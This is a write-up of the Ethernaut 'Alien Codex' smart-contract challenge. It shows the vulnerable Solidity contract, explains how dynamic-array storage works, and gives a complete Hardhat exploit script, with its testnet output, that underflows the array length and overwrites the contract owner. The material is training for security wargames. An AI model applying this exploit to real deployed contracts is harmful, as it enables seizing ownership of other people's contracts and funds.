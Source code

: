 ```yaml
---
title: Ethernaut Alien Codex
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Alien Codex challenge writeup
---
```


## Alien Codex

### Challenge

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Background

This challenge is actually something I have suggested and discussed with some friends after a HAM radio lecture a few days ago :)

Arrays are allocated in two different ways. There are fixed-length arrays and dynamic-length arrays. Fixed-length arrays allocate space as if each element in the array was a separate variable. Dynamic-length arrays on the other hand, work in a very different way. Dynamic-length arrays store the length of the array in the slot given, and then use the `keccak` hash of that slot number to point to the location of the array. Then the array is accessed in a consecutive fashion. The problem arrises when one realizes that the length value is just a number stored in the `array.length` variable and if it can be manipulated, an attacker could extend it and make the array overlap other stuff in storage and then potentially access it by indexing into the array. Since solidity version `0.6.0` the `array.length` is now treated as read only by the compiler, however it is **NOT** a constant. Manipulating the slot using some other technique could still change its value.

### Attack

In order to attack this challenge, we first need to extend the length of the array. This can be achieved usign an integer underflow vulnerability. This can be achieved by simply calling the `retract` function before adding anything to the array. This will underflow the integer and go from `0x0000000000000000000000000000000000000000000000000000000000000000` to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`. In order to call the `retract` function we also need to call the `make_contact` function just to bypass the modifier check. Finally we can calculate the offset of the array start to the first slot (slot 0) and replace the item at that index with the attackers address using the `revise` function.

We could consider clearing the `contact` variable and even fixing the array length, but since its not required we wont be bothering with this.

* Call the `make_contact` function to bypass the modifier check
* Call the `retract` function to underflow the `length` variable
* Calculate the array starting point using `keccak(uint256(0x01))`
* Calculate the offset at which the array would wrap around
* Call the `revise` function to replace the array location at the calculated offset with the attackers address

#### alien-codex-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    alienCodexAddress = "0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5";
    contract = await ethers.getContractAt("AlienCodex", alienCodexAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address : " + contract.address)
    console.log("Contract owner: " + await contract.owner())

    // calculate start of array
    arrayStart = ethers.utils.keccak256(ethers.utils.hexZeroPad(0x01, 32))

    // calculate owner offset (slot 0) from start of array
    offset = ethers.BigNumber.from('0x10000000000000000000000000000000000000000000000000000000000000000').sub(ethers.BigNumber.from(arrayStart))
    offsetHex = ethers.utils.hexZeroPad(offset, 32)

    // bypass modifier check
    tx = await contract.connect(account).make_contact()
    receipt = await tx.wait()

    // underflow array length to access full space
    tx = await contract.connect(account).retract()
    receipt = await tx.wait()

    // replace owner by writing address to array at calculated offset
    tx = await contract.connect(account).revise(offsetHex, ethers.utils.hexZeroPad(account.address, 32))
    receipt = await tx.wait()
    
    console.log("Contract owner: " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/alien-codex-solve.js --network rinkeby
Level address : 0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5
Contract owner: 0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272
Contract owner: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
